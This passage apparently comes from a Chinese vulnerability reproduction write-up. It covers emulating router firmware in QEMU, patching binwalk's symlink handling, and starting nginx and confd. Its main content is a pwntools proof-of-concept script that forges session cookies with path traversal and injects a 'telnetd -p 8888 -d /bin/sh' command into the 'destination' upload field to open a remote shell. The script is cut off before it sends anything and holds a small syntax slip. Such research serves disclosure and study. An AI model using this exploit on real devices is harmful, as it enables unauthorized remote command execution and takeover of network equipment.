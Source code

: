 0x04 验证 &amp; POC
=================

qemu模拟启动虚拟环境。arm小端，使用的是armhf，在qemu模拟的系统中，切换chroot和挂载dev poc之后，按照以下指令启动nginx服务即可，比httpd之类的方便一点。

```bash
/etc/init.d/boot boot
generate_default_cert
/etc/init.d/confd start
/etc/init.d/nginx start
```

具体的可以看nginx和confd启动需要的依赖。

这里遇到了一个bug，启动服务的时候，有很多东西显示没有，看了一下，发现我的var软连接指向了/dev/null？？？

然后找了一些资料，发现是binwalk在解压的时候，自动把软连接重置为了null。所以在这里对binwalk需要做一个修改，在`binwalk/modules/extractor.py`文件中。

有一个最后三行的if判断（if not xxxx）  
![](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-120a1c060ccc7553c97405a0d516afe2b0445dac.png)

把那里的if改为`if 0 and not xxxxx`

然后重新编译binwalk再去提取就ok了（复现完毕别忘记改回来，怕出问题）

一直到命令执行，实际上一个脚本就可以一把梭，关注点在于第一个sessionid和第二个sessionid的伪造，以及任意文件移动的绕过和destination的设置。

```python
from pwn import *
import base64 as b64

IP = "192.168.250.173"
PORT = 80
p = remote(IP.PORT)

text = "login".encode('utf-8')
fake_session = "sessionid=../../../../../../etc/passwd;sessionid=" + b64.b64encode(text).decode('utf-8') + ";"

body = """------WebKitFormBoundaryz6gIo5kcTkAlkCwX
Content-Disposition: form-data; name="sessionid"

EU6DJKEIWO
------WebKitFormBoundaryz6gIo5kcTkAlkCwX
Content-Disposition: form-data; name="pathparam"

Firmware
------WebKitFormBoundaryz6gIo5kcTkAlkCwX
Content-Disposition: form-data; name="fileparam"

file001
------WebKitFormBoundaryz6gIo5kcTkAlkCwX
Content-Disposition: form-data; name="destination"

x';/usr/sbin/telnetd -p 8888 -d /bin/sh
------WebKitFormBoundaryz6gIo5kcTkAlkCwX
Content-Disposition: form-data; name="option"

x
------WebKitFormBoundaryz6gIo5kcTkAlkCwX
Content-Disposition: form-data; name="file"; filename="1.img"
Content-Type: application/octet-stream

1111
------WebKitFormBoundaryz6gIo5kcTkAlkCwX--

"""

```